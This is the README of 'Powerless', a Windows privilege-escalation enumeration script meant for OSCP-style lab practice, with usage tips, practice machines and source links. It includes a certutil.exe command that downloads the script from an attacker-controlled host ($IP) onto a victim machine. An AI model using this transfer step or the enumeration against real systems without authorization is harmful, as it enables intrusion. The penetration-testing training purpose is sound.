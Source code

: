# Powerless
A Windows privilege escalation (enumeration) script designed with OSCP labs (i.e. legacy Windows machines without Powershell) in mind. The script represents a conglomeration of various privilege escalation checks, gathered from various sources, all done via native Windows binaries present in almost every version of Windows.

Note, the batch file also operates on the latest versions of Windows as well. PowerShell is not necessary to achieve proper OS enumeration.

# Use
Copy the batch file from your attacker machine to a user writeable directory on the victim machine (typically the current users folder, or the "public" user folder will be writeable). 

Also (although the script will run without it), it recommened you copy (an older verison of) AccessChk.exe to the same location. It is recommended you use an older version of accesschk.exe as the latest verison will not work on some older Windows machines. The archived version here worked well in my experience (thanks, g0tmi1k); https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe

There are many ways to copy over files. I found certutil.exe to be the most reliable across Windows editions. For example;

    certutil.exe -urlcache -split -f "http://$IP/Powerless.bat" Powerless.bat
    
The script may generate a lot of output. My recommended approach is to go through it sequentially making a list of 'interesting' things to look at, sorting them as you go. Once you've reached the end of the output, go through your list in order of what stuck out the most. 

You will do yourself a great disservice if you lean heavily on kernel exploits at the expense of thorough Windows enumeration. Although you may find kernel exploits often in work in the labs, try to find other avenues as well. The script has comments sprinkled throughout to try to provide guidance on what to look for. 

# Recommended OSCP-like Windows Hack The Box machines 
Regretably, the vast majority of HTB Windows machines require kernel exploits for privilege escalation. I found the following machines helpful for practicing priv esc (read, not your typical privilege escalation).

-  Chatterbox
-  Jeeves
-  Access
-  Active
-  SecNotes

# Sources
-  http://www.fuzzysecurity.com/tutorials/16.html
-  https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
-  https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html
-  https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
-  https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
